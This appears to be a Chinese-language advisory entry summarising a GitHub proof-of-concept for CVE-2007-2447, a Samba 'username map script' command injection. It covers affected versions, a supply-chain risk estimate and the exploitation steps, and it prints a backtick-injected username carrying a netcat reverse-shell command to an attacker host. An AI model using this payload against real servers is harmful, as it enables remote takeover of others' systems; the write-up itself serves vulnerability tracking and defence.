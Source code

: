 ## CVE-2007-2447-Samba-远程命令执行

**漏洞编号:** CVE-2007-2447

**漏洞类型:** 远程命令执行

**影响应用:** Samba

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** 3.0.0 <= Samba <= 3.0.25rc3

**利用条件:** 目标系统运行Samba服务，并且配置了username map script

**POC 可用性:** 是

**投毒风险:** 1%

## 详情

CVE-2007-2447 漏洞存在于 Samba 3.0.0 到 3.0.25rc3 版本的 smbd 的 MS-RPC 功能中。攻击者可以通过在 username map script 配置启用时，向 SamrChangePassword 函数发送包含 shell 元字符的恶意请求，或者通过其他 MS-RPC 函数(例如远程打印机和文件共享管理)利用此漏洞执行任意命令。

**有效性：**
提供的POC代码利用了该漏洞。代码通过构造一个特殊的用户名，该用户名包含命令注入，并尝试连接到目标 SMB 服务器。如果目标服务器存在漏洞并且配置正确（启用 username map script），则用户名中的命令将被执行。

**投毒风险：**
该存储库主要包含漏洞的利用代码和一个README文件。对`exploit.py`的快速分析显示，它会执行如利用描述中解释的漏洞，并且没有明显的恶意代码。该代码依赖于`python3-samba`，这是一个已知的库，因此降低了与依赖项相关的风险。但是，从任何未经审查的来源运行代码始终存在风险，因此，在受控环境中进行代码审查和测试至关重要。将投毒风险定为 1% 主要是因为所有代码都需要手动执行，并且相对简单，降低了隐藏恶意行为的可能性。

**利用方式：**
1.  **漏洞触发：** 攻击者构造包含 shell 元字符的恶意用户名。例如 `f"/=`nohup nc -e /bin/bash {lhost} {lport}`"`。
2.  **SMB 连接：** 攻击者使用 `SMBConnection` 尝试使用构造的恶意用户名连接到目标 SMB 服务器的 139 端口（rport）。
3.  **命令执行：** 如果目标服务器启用了 `username map script` 选项，并且存在漏洞，Samba 将会执行恶意用户名中的命令。 在本例中, 使用 netcat 反弹 shell 到攻击者控制的机器。
4.  **反弹 Shell：** `nc -e /bin/bash {lhost} {lport}` 命令在受害者机器上执行，从而建立与攻击者机器的反向 shell 连接，使得攻击者可以控制受害者机器。

**项目地址:** [foudadev/CVE-2007-2447](https://github.com/foudadev/CVE-2007-2447)

**漏洞详情:** [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)